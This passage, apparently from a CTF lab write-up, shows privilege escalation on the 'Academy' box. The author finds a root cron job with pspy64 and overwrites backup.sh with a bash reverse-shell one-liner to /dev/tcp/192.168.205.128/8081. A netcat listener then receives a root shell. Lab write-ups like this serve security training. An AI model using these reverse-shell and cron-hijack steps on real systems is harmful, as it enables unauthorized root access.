

website : https://github.com/DominicBreuker/pspy
will move the file in the root (i.e. in the trasnfer folder)
┌──(root㉿kali)-[~]
└─# mv /home/kali/Downloads/pspy64 transfer/pspy64
Now will download the file in the victim tmp folder (i.e. grimmie shell)
$ wget http://192.168.205.128/pspy64
--2022-12-07 12:35:52-- http://192.168.205.128/pspy64
Connecting to 192.168.205.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'
0K .......... .......... .......... .......... .......... 1% 13.6M 0s
50K .......... .......... .......... .......... .......... 3% 20.3M 0s
100K .......... .......... .......... .......... .......... 4% 53.2M 0s
150K .......... .......... .......... .......... .......... 6% 129M 0s
200K .......... .......... .......... .......... .......... 8% 168M 0s
250K .......... .......... .......... .......... .......... 9% 23.0M 0s
300K .......... .......... .......... .......... .......... 11% 20.3M 0s
350K .......... .......... .......... .......... .......... 13% 39.0M 0s
400K .......... .......... .......... .......... .......... 14% 25.1M 0s
450K .......... .......... .......... .......... .......... 16% 36.7M 0s
500K .......... .......... .......... .......... .......... 18% 23.3M 0s
550K .......... .......... .......... .......... .......... 19% 53.6M 0s
600K .......... .......... .......... .......... .......... 21% 35.5M 0s
650K .......... .......... .......... .......... .......... 23% 230M 0s
700K .......... .......... .......... .......... .......... 24% 224M 0s
750K .......... .......... .......... .......... .......... 26% 122M 0s
800K .......... .......... .......... .......... .......... 28% 384M 0s
850K .......... .......... .......... .......... .......... 29% 88.2M 0s
900K .......... .......... .......... .......... .......... 31% 108M 0s
950K .......... .......... .......... .......... .......... 33% 291M 0s
1000K .......... .......... .......... .......... .......... 34% 85.1M 0s
1050K .......... .......... .......... .......... .......... 36% 161M 0s
1100K .......... .......... .......... .......... .......... 38% 334M 0s
1150K .......... .......... .......... .......... .......... 39% 41.8M 0s
1200K .......... .......... .......... .......... .......... 41% 35.3M 0s
1250K .......... .......... .......... .......... .......... 43% 47.5M 0s
1300K .......... .......... .......... .......... .......... 44% 37.5M 0s
1350K .......... .......... .......... .......... .......... 46% 26.5M 0s
1400K .......... .......... .......... .......... .......... 48% 42.4M 0s
1450K .......... .......... .......... .......... .......... 49% 56.3M 0s
1500K .......... .......... .......... .......... .......... 51% 68.1M 0s
1550K .......... .......... .......... .......... .......... 53% 103M 0s
1600K .......... .......... .......... .......... .......... 54% 69.5M 0s
1650K .......... .......... .......... .......... .......... 56% 90.8M 0s
1700K .......... .......... .......... .......... .......... 58% 466M 0s
1750K .......... .......... .......... .......... .......... 59% 109M 0s
1800K .......... .......... .......... .......... .......... 61% 419M 0s
1850K .......... .......... .......... .......... .......... 63% 249M 0s
1900K .......... .......... .......... .......... .......... 64% 94.5M 0s
1950K .......... .......... .......... .......... .......... 66% 125M 0s
2000K .......... .......... .......... .......... .......... 68% 110M 0s
2050K .......... .......... .......... .......... .......... 69% 109M 0s
2100K .......... .......... .......... .......... .......... 71% 107M 0s
2150K .......... .......... .......... .......... .......... 73% 92.0M 0s
2200K .......... .......... .......... .......... .......... 74% 102M 0s
2250K .......... .......... .......... .......... .......... 76% 106M 0s
2300K .......... .......... .......... .......... .......... 78% 63.8M 0s
2350K .......... .......... .......... .......... .......... 79% 40.5M 0s
2400K .......... .......... .......... .......... .......... 81% 40.0M 0s
2450K .......... .......... .......... .......... .......... 83% 54.7M 0s
2500K .......... .......... .......... .......... .......... 84% 67.0M 0s
2550K .......... .......... .......... .......... .......... 86% 41.6M 0s
2600K .......... .......... .......... .......... .......... 88% 51.6M 0s
2650K .......... .......... .......... .......... .......... 89% 63.8M 0s
2700K .......... .......... .......... .......... .......... 91% 44.5M 0s
2750K .......... .......... .......... .......... .......... 93% 68.2M 0s
2800K .......... .......... .......... .......... .......... 94% 48.5M 0s
2850K .......... .......... .......... .......... .......... 96% 50.2M 0s
2900K .......... .......... .......... .......... .......... 98% 51.8M 0s
2950K .......... .......... .......... .......... .......... 99% 30.9M 0s
3000K ...... 100% 25.6M=0.05s
2022-12-07 12:35:52 (54.2 MB/s) - 'pspy64' saved [3078592/3078592]
$ ls
linpeas.sh
pspy
$chmod +x pspy64
$./pspy64
2022/12/07 12:37:58 CMD: UID=0 PID=12982 | sshd: grimmie [priv]
2022/12/07 12:37:58 CMD: UID=0 PID=12921 |
2022/12/07 12:37:58 CMD: UID=0 PID=12 |
2022/12/07 12:37:58 CMD: UID=0 PID=11 |
2022/12/07 12:37:58 CMD: UID=0 PID=10 |
2022/12/07 12:37:58 CMD: UID=0 PID=1 | /sbin/init
2022/12/07 12:38:01 CMD: UID=0 PID=13232 | /usr/sbin/CRON -f
2022/12/07 12:38:01 CMD: UID=0 PID=13233 | /usr/sbin/CRON -f
2022/12/07 12:38:01 CMD: UID=0 PID=13234 | /bin/sh -c /home/grimmie/backup.sh
2022/12/07 12:38:01 CMD: UID=0 PID=13235 | /bin/bash /home/grimmie/backup.sh
2022/12/07 12:38:01 CMD: UID=0 PID=13236 | /bin/bash /home/grimmie/backup.sh
2022/12/07 12:38:01 CMD: UID=0 PID=13237 | /bin/bash /home/grimmie/backup.sh
so we have confirmed that backup.sh is running on timmer using the pspy64 so will be abusing this in our favour
grimmie@academy:/tmp$ cd /home/grimmie
grimmie@academy:~$ ls
backup.sh
Google bash reverse shell one liner which will take us to reverse shell cheat sheet from Pentestmonkey.
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Command : bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
But will modify it and will use the attacker ip which is 192.168.205.128 in our case and will also change the port to 8081 cuz 8080 might be already in use.
So as our hun was right as the script as running every minute and we got the root shell on the listner we were listening.
Note: I have deleted the shebang (i.e. #!/bin/bash)
so the script was not running and if run the script manually than will get the grimmie shell and not the root shell.
grimmie@academy:~$ cat backup.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.205.128/8081 0>&1
grimmie@academy:~$
┌──(root㉿kali)-[~]
└─# nc -nvlp 8081
listening on [any] 8081 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.131] 38838
bash: cannot set terminal process group (1217): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# whoami
whoami
root
root@academy:~# cd /root
cd /root
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.
Happy hacking !
root@academy:~#
